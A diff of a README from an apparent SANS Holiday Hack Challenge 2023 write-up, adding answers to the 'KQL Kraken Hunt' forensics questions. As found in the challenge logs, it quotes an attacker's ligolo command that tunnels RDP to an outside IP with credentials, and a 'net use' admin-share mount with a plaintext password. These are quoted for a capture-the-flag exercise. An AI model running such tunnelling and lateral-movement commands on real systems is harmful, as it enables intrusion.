

Before and after one commit to LamonatoAndrea/HolidayHackChallenge2023_writeup, a Markdown page: 13 - KQL Kraken Hunt/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Sun Jan 28 01:24:13 AM CET 2024

````diff
--- a/13 - KQL Kraken Hunt/README.md
+++ b/13 - KQL Kraken Hunt/README.md
@@ -104,3 +104,12 @@ This took a little manual analysis, eventually identifying the command:
 ```bash
 cmd.exe "ligolo" --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof
 ```
+
+*Answer for question 2*:
+This took a little manual analysis, eventually identifying a `net share` command at `2023-12-02T16:51:44Z`
+
+*Answer for question 3*:
+This took a little manual analysis, eventually identifying the command:
+```bash
+cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123
+```
````
